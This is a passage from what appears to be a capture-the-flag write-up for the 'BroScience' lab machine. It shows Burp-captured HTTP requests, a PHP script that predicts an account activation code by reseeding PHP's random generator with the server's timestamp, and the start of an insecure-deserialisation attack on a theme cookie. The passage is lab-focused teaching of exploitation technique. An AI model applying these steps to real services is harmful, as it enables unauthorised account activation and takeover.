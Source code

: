 First we register a user, we catch the request through burp to get the response time created.

```
POST /register.php HTTP/1.1
Host: broscience.htb
Cookie: PHPSESSID=pvaju0mj9orufo4cmpemh2eaa5
User-Agent: XXX
...
Connection: close

username=test123&email=test123%40hotmail.com&password=test&password-confirm=test
```

Now we need to activate the account, we know by looking at the code we need to send a `GET` request to `/activate.php?code=x`. We first need to generate the code. We use the code in `utils.php` to do so:
```php
$ cat generateCookie.php 
<?php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(strtotime("Fri, 07 Apr 2023 11:00:33 GMT"));
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    echo $activation_code;
}

generate_activation_code();
?>
$ php generateCookie.php
CG73wpNUfpp4FeEzSIIz1kv3UMten1V6 
```

We can now send a request with this token:
```
GET /activate.php?code=CG73wpNUfpp4FeEzSIIz1kv3UMten1V6 HTTP/1.1
Host: broscience.htb
Cookie: PHPSESSID=pvaju0mj9orufo4cmpemh2eaa5
User-Agent: XXX
...
Te: trailers
Connection: close
```

We can now login and start the next step to gain a remote shell.

### Insecure Deserialisation
We know a cookie is generated that stores the theme preference of the user. We can see this cookie being set when the theme is swapped.
```
GET /swap_theme.php HTTP/1.1
Host: broscience.htb
Cookie: PHPSESSID=pvaju0mj9orufo4cmpemh2eaa5; user-prefs=Tzo5OiJVc2VyUHJlZnMiOjE6e3M6NToidGhlbWUiO3M6NToibGlnaHQiO30%3D
User-Agent: XXX
...
Connection: close
```
